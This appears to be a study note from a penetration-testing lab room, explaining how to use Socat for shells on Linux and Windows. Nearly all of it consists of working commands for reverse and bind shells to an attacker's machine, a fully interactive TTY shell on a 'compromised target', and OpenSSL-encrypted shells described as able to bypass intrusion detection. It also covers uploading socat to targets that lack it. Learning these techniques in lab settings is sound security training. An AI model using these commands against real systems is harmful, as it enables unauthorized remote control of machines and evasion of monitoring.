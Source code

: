 # Socat

Socat is similar to Netcat but fundamentally different in many ways. It acts as a connector between two points, which could be a listening port and the keyboard, a listening port and a file, or even two listening ports. Think of it as a "portal gun" for networking!

#### Reverse Shells

*   The syntax for Socat is more complex than that of Netcat. Here’s the syntax for a basic reverse shell listener in Socat:

    ```bash
    socat TCP-L:<port> -
    ```

    * This command connects a listening port to standard input, resulting in an unstable shell. It works on both Linux and Windows and is equivalent to `nc -lvnp <port>`.
*   **Connecting Back on Windows**:

    ```bash
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
    ```

    * The "pipes" option forces PowerShell (or cmd.exe) to use Unix-style standard input and output.
*   **Connecting Back on Linux**:

    ```bash
    socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
    ```

#### Bind Shells

*   **Listener on Linux**:

    ```bash
    socat TCP-L:<PORT> EXEC:"bash -li"
    ```
*   **Listener on Windows**:

    ```bash
    socat TCP-L:<PORT> EXEC:powershell.exe,pipes
    ```
*   Regardless of the target, use the following command on your attacking machine to connect to the waiting listener:

    ```bash
    socat TCP:<TARGET-IP>:<TARGET-PORT> -
    ```

#### Fully Stable Linux TTY Reverse Shell

*   Socat can be used to create a fully stable Linux TTY reverse shell, which is significantly more stable than a standard shell. Here’s the listener syntax:

    ```bash
    socat TCP-L:<port> FILE:`tty`,raw,echo=0
    ```

    * This command connects a listening port to the current TTY as a file, setting echo to zero. This is similar to the `Ctrl + Z, stty raw -echo; fg` trick with a Netcat shell but provides immediate stability.
* To activate this special listener, the target must have Socat installed. If it’s not installed, you can upload a precompiled Socat binary.
*   **Special Command for Interactive Shell**:

    {% code overflow="wrap" %}
    ```bash
    socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
    ```
    {% endcode %}

    * **Breakdown of Arguments**:
      * **pty**: Allocates a pseudoterminal on the target, part of the stabilization process.
      * **stderr**: Ensures error messages are shown in the shell.
      * **sigint**: Passes Ctrl + C commands through to the subprocess, allowing command termination.
      * **setsid**: Creates the process in a new session.
      * **sane**: Stabilizes the terminal, normalizing it.

#### Practical Application

* In practice, you would have a listener running on your attacking machine while executing the special Socat command on the compromised target. This results in a fully interactive bash shell on the Socat listener.
* The Socat shell allows for interactive commands, such as SSH, and can be further improved by setting the `stty` values to enable text editors like Vim or Nano.

#### Troubleshooting

* If a Socat shell is not functioning correctly, increase verbosity by adding `-d -d` to the command. This is useful for experimental purposes but is generally not necessary for regular use.

***

### Socat Encrypted Shells

Socat can create encrypted shells (both bind and reverse), which are beneficial because they cannot be easily monitored without the decryption key and can often bypass Intrusion Detection Systems (IDS).

#### Setting Up Encrypted Shells

* To create encrypted shells, replace any instance of TCP in the command syntax with OPENSSL.
*   Before using encrypted shells, you need to generate a certificate on your attacking machine:

    {% code overflow="wrap" %}
    ```bash
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    ```
    {% endcode %}

    * This command creates a 2048-bit RSA key and a matching self-signed certificate valid for just under a year. You can leave the certificate information blank or fill it in randomly.
*   Merge the generated key and certificate into a single PEM file:

    ```bash
    cat shell.key shell.crt > shell.pem
    ```

#### Setting Up the Listener

*   For a reverse shell listener, use the following command:

    <pre class="language-bash"><code class="lang-bash"><strong>socat OPENSSL-LISTEN:&#x3C;PORT>,cert=shell.pem,verify=0 -
    </strong></code></pre>

    * This sets up an OPENSSL listener using the generated certificate. The `verify=0` option disables validation of the certificate by a recognized authority. Remember, the certificate must be used on the device that is listening.

#### Connecting Back

*   To connect back to the listener, use:

    ```bash
    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
    ```

#### Bind Shells

*   For a bind shell on a target, use:

    {% code overflow="wrap" %}
    ```bash
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
    ```
    {% endcode %}
*   On the attacking machine, connect with:

    ```bash
    socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
    ```
* Note: The certificate must be used with the listener, so ensure the PEM file is copied over for a bind shell.

#### Practical Application

* The technique can also be applied to the special Linux-only TTY shell discussed in the previous task. Experimenting with the syntax may be necessary, and you can use the Linux Practice box (available at the end of the room) for hands-on practice if needed.
